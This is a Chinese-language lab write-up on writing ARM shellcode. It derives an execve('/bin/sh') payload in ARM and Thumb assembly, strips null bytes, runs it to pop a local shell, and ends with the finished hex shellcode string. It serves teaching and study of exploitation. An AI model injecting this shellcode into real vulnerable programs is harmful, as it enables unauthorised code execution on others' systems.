 # arm下shellcode开发

## 实验概述

### 【目的】
学习在arm进行shellcode
### 【环境】
Linux,arm的qemu
### 【工具】
gdb，as，objdump
### 【原理】
shellcode是一段机器指令，用于在溢出之后改变系统的正常流程，转而执行shellcode从而入侵目标系统。
shellcode基本的编写方式：
- 编写c程序实现功能
- 使用汇编来替代函数调用等
- 汇编编译链接，获取机器码
## 实验步骤

### 【步骤】
先编写一个c语言程序起一个shell。
```c
#include<stdio.h>
int main()
{
    system("/bin/sh");
    return 0;
}
```
用gcc编译
```
$gcc system.c -o system
```
使用strace跟踪程序的函数调用等
```
$strace -v -f ./system
```
可以看到有一段输出为
```c
[pid 16890] execve("/bin/sh", ["sh", "-c", "/bin/sh"], ["INFINALITY_FT_AUTOHINT_HORIZONTA"..., "XDG_SESSION_ID=c2", "INFINALITY_FT_BOLD_EMBOLDEN_X_VA"..., "INFINALITY_FT_AUTOHINT_VERTICAL_"..., "TERM=xterm", "SHELL=/bin/bash", "SSH_CLIENT=10.0.2.2 56290 22", "SSH_TTY=/dev/pts/0", "INFINALITY_FT_CONTRAST=0", "INFINALITY_FT_GRAYSCALE_FILTER_S"..., "USER=pi", "LS_COLORS=rs=0:di=01;34:ln=01;36"..., "INFINALITY_FT_FRINGE_FILTER_STRE"..., "INFINALITY_FT_BRIGHTNESS=0", "INFINALITY_FT_USE_VARIOUS_TWEAKS"..., "INFINALITY_FT_GAMMA_CORRECTION=0"..., "MAIL=/var/mail/pi", "PATH=/usr/local/sbin:/usr/local/"..., "PWD=/home/pi", "INFINALITY_FT_FILTER_PARAMS=11 2"..., "LANG=en_GB.UTF-8", "INFINALITY_FT_USE_KNOWN_SETTINGS"..., "INFINALITY_FT_STEM_SNAPPING_SLID"..., "INFINALITY_FT_WINDOWS_STYLE_SHAR"..., "INFINALITY_FT_CHROMEOS_STYLE_SHA"..., "INFINALITY_FT_AUTOHINT_SNAP_STEM"..., "INFINALITY_FT_STEM_ALIGNMENT_STR"..., "SHLVL=1", "HOME=/home/pi", "INFINALITY_FT_BOLD_EMBOLDEN_Y_VA"..., "INFINALITY_FT_GLOBAL_EMBOLDEN_Y_"..., "LOGNAME=pi", "SSH_CONNECTION=10.0.2.2 56290 10"..., "INFINALITY_FT_STEM_FITTING_STREN"..., "INFINALITY_FT_AUTOHINT_INCREASE_"..., "TEXTDOMAIN=Linux-PAM", "INFINALITY_FT_GLOBAL_EMBOLDEN_X_"..., "XDG_RUNTIME_DIR=/run/user/1000", "OLDPWD=/home/pi/ARM-challenges", "_=/usr/bin/strace"]) = 0
```
可以发现，system()实际调用了execve()。
我们可以通过man命令查看execve()的细节。
```
$man execve
```
```c
EXECVE(2)                  Linux Programmer's Manual                 EXECVE(2)

NAME
       execve - execute program

SYNOPSIS
       #include <unistd.h>

       int execve(const char *filename, char *const argv[],
                  char *const envp[]);

....
```

execve()需要的参数是：
- 指向指定二进制文件路径的字符串指针
- argv[]
- envp[]

这里，"/bin/sh"显然是必须的，我们可以调用execve("/bin/sh",0,0)来完成功能

获取execve()的系统调用号
```c
pi@raspberrypi:~ $ grep execve /usr/include/arm-linux-gnueabihf/asm/unistd.h 
#define __NR_execve			(__NR_SYSCALL_BASE+ 11)

```
可以看到execve()的系统调用号为11，在arm汇编中R7寄存器用于传递系统调用号。

在arm中，系统调用的步骤为：
- 将参数送到 R0，R1，...
- 将系统调用号送入 R7
- SVC#0或SVC#1
- 用R0传递返回值

现在，我们可以写出arm汇编的代码
```
.section .text
.global _start

_start:
    add     r0,pc,#12
    mov     r1,#0
    mov     r2,#0
    mov     r7,#11
    svc     #0

    .ascii  "/bin/sh\0"
```

查看程序的反汇编

```
$ as system.s -o system.o

$ objdump -d system.o

system.o:     file format elf32-littlearm


Disassembly of section .text:

00000000 <_start>:
   0:	e28f000c 	add	r0, pc, #12
   4:	e3a01000 	mov	r1, #0
   8:	e3a02000 	mov	r2, #0
   c:	e3a0700b 	mov	r7, #11
  10:	ef000000 	svc	0x00000000
  14:	6e69622f 	.word	0x6e69622f
  18:	0068732f 	.word	0x0068732f

```
现在的机器码还是无法使用的，我们需要剔除里面"\x00"。

使用异或操作代替#0立即数的使用，启用thumb模式使代码更紧凑。
```
.section .text
.global  _start
_start:
    .code   32
    add     r3,pc,#1
    bx      r3

    .code   16
    add     r0,pc,#8
    eor     r1,r1,r1
    eor     r2,r2,r2
    mov     r7,#11
    svc     #1
    mov     r5,r5

    .ascii "/bin/sh\0"
```

```
$ as execve.s -o execve.o
pi@raspberrypi:~ $ objdump -d execve.o

execve.o:     file format elf32-littlearm


Disassembly of section .text:

00000000 <_start>:
   0:	e28f3001 	add	r3, pc, #1
   4:	e12fff13 	bx	r3
   8:	a002      	add	r0, pc, #8	; (adr r0, 14 <_start+0x14>)
   a:	4049      	eors	r1, r1
   c:	4052      	eors	r2, r2
   e:	270b      	movs	r7, #11
  10:	df01      	svc	1
  12:	1c2d      	adds	r5, r5, #0
  14:	6e69622f 	.word	0x6e69622f
  18:	0068732f 	.word	0x0068732f

```
可以看到机器码中仍然有"\x00"，位于"/bin/sh\0"的末尾，这里我们可以用任意字符替换"\x00"，并且用置空的寄存器替换字符串末尾的字符。
```
.section .text
.global  _start
_start:
    .code   32
    add     r3,pc,#1
    bx      r3

    .code   16
    add     r0,pc,#8
    eor     r1,r1,r1
    eor     r2,r2,r2
    strb    r2,[r0,#7]
    mov     r7,#11
    svc     #1

    .ascii "/bin/sh\x"
```

```
$ as execve2.s -o execve2.o && ld -N execve2.o -o execve2
pi@raspberrypi:~ $ objdump -d execve2.o

execve2.o:     file format elf32-littlearm


Disassembly of section .text:

00000000 <_start>:
   0:	e28f3001 	add	r3, pc, #1
   4:	e12fff13 	bx	r3
   8:	a002      	add	r0, pc, #8	; (adr r0, 14 <_start+0x14>)
   a:	4049      	eors	r1, r1
   c:	4052      	eors	r2, r2
   e:	71c2      	strb	r2, [r0, #7]
  10:	270b      	movs	r7, #11
  12:	df01      	svc	1
  14:	6e69622f 	.word	0x6e69622f
  18:	7868732f 	.word	0x7868732f

```
可以看到已经不存在"\x00"了，尝试运行程序，看看能不能弹shell出来
```
pi@raspberrypi:~ $ ./execve2 
$ whoami
pi
$ 
```

然后提取十六进制shellcode
```
pi@raspberrypi:~ $ objcopy -O binary execve2 execve2.bin
pi@raspberrypi:~ $  hexdump -v -e '"\\""x" 1/1 "%02x" ""' execve2.bin
\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x02\xa0\x49\x40\x52\x40\xc2\x71\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68\x78
```
完成
### 【总结】
本次实验主要熟悉了使用arm汇编开发shellcode的过程。
